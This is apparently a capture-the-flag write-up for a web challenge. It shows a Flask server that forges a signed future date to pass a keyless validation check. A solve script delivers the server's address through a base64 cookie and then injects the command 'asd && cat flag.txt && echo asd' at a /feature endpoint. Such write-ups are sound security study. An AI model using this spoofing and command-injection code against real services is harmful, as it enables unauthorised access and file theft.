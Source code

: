 After analyzing the code, in order to validate the server, it must return a date that is 7 days into the future and a pubkey that will be verified by the date. The default validation server only return the date of the present so we can't use that to validate.

But there's no secret being use to verify here. So we can just modify the default validation server code and run it as our attacker server.

```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
  return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
  date = str(int(time.time()) + 10 * 24 * 60 * 60)
  h = SHA256.new(date.encode('utf-8'))
  signature = DSS.new(key, 'fips-186-3').sign(h)

  return jsonify({
    'date': date,
    'signature': signature.hex()
  })


if __name__ == '__main__':
  app.run(host='127.0.0.1', port=1338)
```
{: file="attacker_validation_server.py" }

I will modify it to send a date that is 10 days into the future.

After that use ngrok to expose the port, and provide the address to `/release?debug=true` then it will give us the `access_granted` token.

Finally, it's just some basic [command injection](https://book.hacktricks.xyz/pentesting-web/command-injection){:target="_blank"} at `/feature`.

**Solve script**
```python
import requests
import base64
import json
url = "https://feature-unlocked-web-challs.csc.tf"
sess = requests.Session()

pref = {
  "validation_server": "https://<uuid>.ngrok-free.app"
}
sess.get(url + "/release?debug=true", cookies={"preferences":base64.b64encode(json.dumps(pref).encode()).decode()})

res = sess.post(url + "/feature", data={"text": "asd && cat flag.txt && echo asd"})
print(res.text)
```